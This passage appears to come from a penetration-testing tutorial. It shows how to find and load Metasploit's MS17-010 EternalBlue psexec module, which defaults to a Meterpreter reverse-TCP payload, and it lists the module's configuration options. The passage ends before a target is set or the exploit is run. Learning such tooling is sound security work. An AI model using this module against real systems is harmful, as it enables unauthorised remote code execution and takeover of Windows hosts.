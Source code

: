 Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```shell
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

>[!Tip]
>Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

```shell
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```shell
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```